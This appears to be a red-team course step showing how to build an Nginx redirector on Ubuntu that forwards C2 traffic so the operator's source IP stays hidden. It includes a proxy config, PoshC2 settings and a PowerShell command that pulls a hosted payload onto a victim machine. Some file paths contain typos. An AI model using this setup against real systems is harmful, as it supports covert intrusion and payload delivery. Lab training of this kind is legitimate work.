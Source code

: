 # Setting up proxy using Ubunut and Nginx

When running actions as an actor you always want to avoid giving away where you are coming from or your source ip. Typically this is done with a proxy also sometimes known as a LP (listening post), in this case it will be an ubuntu server running Nginx. Your current setup is as follows: 

	parrot-OS <> Victim VM
  
What we will be doing with the Ubuntu server is routing our C2 traffic through it so it appears it as though it is coming from the Ubuntu server and the the Parrot vm.

<img src="/images/basic-redirector.png" alt="Markdown Monster icon" style="float: left; margin-right: 10px;" />

Lets install any Ubuntu server ISO from the interwebs [here](https://ubuntu.com/download/server).

# Install Nginx

1. First on your new ubntu box lets run an update 
	```
	sudo apt update
	```
2. Now lets install nginx
	```
	sudo apt install nginx
	```
3. Check the status of our new service 
	```
	sudo systemctl status nginx.service
	```
4. Note the following as important file location for Ngnix 
	## Important Nginx File Locations 
	- `/var/www/html` – Website content as seen by visitors.
	- `/etc/nginx` – Location of the main Nginx application files.
	- `/etc/nginx/nginx.conf` – The main Nginx configuration file.
	- `/etc/nginx/sites-available` – List of all websites configured through Nginx.
	- `/etc/nginx/sites-enabled` – List of websites actively being served by Nginx.
	- `/var/log/nginx/access.log` – Access logs tracking every request to your server.
	- `/var/log/ngins/error.log` – A log of any errors generated in Nginx.


# Nginx Reverse Proxy Config 

1. If your Nginx service isnt already running, run the following command
	```
	sudo systemctl start nginx.service
	```
2. lets edit our default config file `/etc/nginx/sites-enabled/default`
	```
	sudo vim /etc/nginx/site-enabled/default
	```
3. Add the following changes
	```nginx
	server {
			listen 80 default_server;
			listen [::]:80 default_server;

			root /var/www/html;

			index index.html;

			server_name *.example.org;

			location / {
					try_files $uri $uri/ @c2;
			}

			location @c2 {
					proxy_pass http://c2-ip-address;
					proxy_redirect off;
					proxy_set_header Host $host;
					proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
			}
	}
	```
> **NOTE:** Set your listening ports for Nginx server and your C2 ip to redirect to.

4. test your config 
    ```bash
    sudo nginx -t
    ```
5. If no error, restart you Nginx server
    ```bs
    sudo systemctl restart nginx.service
    ```
6. Before we get a beacon on our victim using our proxy you HAVE to start a new posh-project and change the followin
	```
	Payloadcoms http://nginx-ip:80
	```	
7. Once your new posh-project is up all you need is to host a new payload and you'll be ready for compromise 
	
8. Now you can return to your Victim Machine and run a download using powershell through your proxy 
	```powershell 
	iwr -uri http://<ubuntu-nginx-ip>/hosted-payload -outfile C:\windows\temp\gotem.exe
	```
## [Return to course page](README.md) or [Continue Course](step3-persistence.md) 

# Resources
- [How to setup NGINX server on ubuntu](https://www.digitalocean.com/community/tutorials/how-to-install-nginx-on-ubuntu-20-04)
  - > This writeup was made following this if you need a better explination
- [Something forwarding C2 coms](https://coffeegist.com/security/resilient-red-team-https-redirection-using-nginx/)